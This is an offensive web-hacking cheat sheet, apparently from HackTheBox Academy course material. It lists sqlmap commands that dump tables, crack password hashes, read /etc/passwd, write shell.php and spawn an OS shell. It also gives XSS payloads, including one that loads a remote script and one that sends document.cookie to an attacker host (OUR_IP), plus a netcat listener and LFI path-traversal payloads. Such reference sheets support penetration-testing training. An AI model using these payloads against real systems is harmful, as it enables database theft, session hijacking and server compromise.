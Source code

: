 | `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema` | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user` | Searching for data |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap --list-tampers` | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell` | Spawning an OS shell |

XXS:

XSS Payloads	
<script>alert(window.origin)</script>	Basic XSS Payload
<plaintext>	Basic XSS Payload
<script>print()</script>	Basic XSS Payload
<img src="" onerror=alert(window.origin)>	HTML-based XSS Payload
<script>document.body.style.background = "#141d2b"</script>	Change Background Color
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>	Change Background Image
<script>document.title = 'HackTheBox Academy'</script>	Change Website Title
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>	Overwrite website's main body
<script>document.getElementById('urlform').remove();</script>	Remove certain HTML element
<script src="http://OUR_IP/script.js"></script>	Load remote script
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>	Send Cookie details to us
Commands	
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"	Run xsstrike on a url parameter
sudo nc -lvnp 80	Start netcat listener
sudo php -S 0.0.0.0:80	Start PHP server

# File Inclusion

## Basic LFI

| Payload | Description |
|---------|-------------|
| `/index.php?language=/etc/passwd` | Basic LFI |
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
